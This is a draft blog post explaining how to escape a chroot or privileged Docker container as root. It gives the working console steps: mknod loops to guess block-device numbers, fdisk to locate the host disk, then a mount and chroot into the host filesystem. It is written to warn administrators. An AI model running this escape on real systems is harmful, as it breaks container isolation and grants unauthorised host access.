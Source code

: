 Hacking the chroot/docker
#########################

:keywords: linux, chroot, hacking, docker
:tags: linux, chroot, hacking, docker
:date: 2019-01-19
:Status: draft
:slug: chroot-breaking-1
:lang: en

In this post I'm going to access supervisor's filesystem when having *root* in *chroot*.
With that, I want to show you, why you should never give root access to users in *chroot*.

Crash course
------------

Because *docker* (like most of container technologies) uses *chroot*, exiting a *chroot* or *docker* will use the same technique.
Presented method need root access in docker run as *privileged* (in case you use docker).

.. code-block:: console

    # docker run -it --privileged centos /bin/bash
    # mknod /tmp/host_disk b 259 1
    # mount /tmp/host_disk /mnt/
    # chroot /mnt/ /bin/bash

Method description
------------------

This method uses *chroot* to the supervisor's *filesystem*.
Usually, we don't have ``/dev/`` directory in *chroot*, so we cannot mount host *filesystem* and we have to create special device file manually.

In Linux devices are represented by special files.
Two, the most important, device types are block devices and character devices.
Character devices are devices which communicates by single char at a time and block devices are devices which communicates with blocks.

Usually, character devices let only read and write.
These devices are ex. mouse, keyboard, ``/dev/random``, pseudoterminal.
Block devices let you random access to device.
These devices are ex. hard disk, cdrom.

Every device special file is defined by three parameters:

- type: block or character device
- major: major device number
- minor: minor device number

Linux kernel using type, major and minor knows which driver should handle device operations.
Full list of defined majors and minors is defined in `linux kernel documentation`_

You can use ``mknod`` to create device special file.
But, there is a catch.
Because, we have to know major and minor numbers of device we want to create, we have to *guess* them.
We can use documentation to know, that IDE hard disk have major 3, SCSI major 8 and so on.
This well know values are good starting points while looking for device with hosts *filesystem*.
If it's not any of them, we have to loop over all possible devices.

.. code-block:: console

    # docker run --rm -it --privileged centos /bin/bash
    # mkdir /tmp/devices
    # cd /tmp/devices/
    # for i in $(seq 1 300); do mknod device_$i b $i 0; done
    # ls -l
    brw-r--r--. 1 root root   1, 0 Feb 10 16:57 device_1
    brw-r--r--. 1 root root  10, 0 Feb 10 16:57 device_10
    brw-r--r--. 1 root root 100, 0 Feb 10 16:57 device_100
    brw-r--r--. 1 root root 101, 0 Feb 10 16:57 device_101
    brw-r--r--. 1 root root 102, 0 Feb 10 16:57 device_102
    brw-r--r--. 1 root root 103, 0 Feb 10 16:57 device_103
    brw-r--r--. 1 root root 104, 0 Feb 10 16:57 device_104
    (...)
    # fdisk  -l * 2>/dev/null
    Disk device_1: 16 MB, 16777216 bytes, 32768 sectors
    Units = sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    
    Disk device_253: 44.0 GB, 44023414784 bytes, 85983232 sectors
    Units = sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    Disk label type: dos
    Disk identifier: 0x0009b93d
    
          Device Boot      Start         End      Blocks   Id  System
    device_253p1   *        2048    83886079    41942016   83  Linux

As we can se, there are only two existing block devices: ``device_1`` and ``device_253``.
``device_1`` is ``RAM disk``, so it's not what we are looking for.
The next one looks like host *filesystem* device.
If case we didn't find any device, we should try looking for minor different than 0.
Because minor 0 is used for whole drive, and we want to access specific partition, we have to create device for specific partition.

.. code-block:: console

    # mknod device_253_1 b 253 1

Now, when we have device for host root *filesystem*, we can mount that partition and ``chroot``.

.. code-block:: console

    # mount device_253_1 /mnt/
    # chroot /mnt/ /bin/bash

And now we have broken chroot and access host *filesystem*.


.. _linux kernel documentation: https://github.com/torvalds/linux/blob/master/Documentation/admin-guide/devices.txt

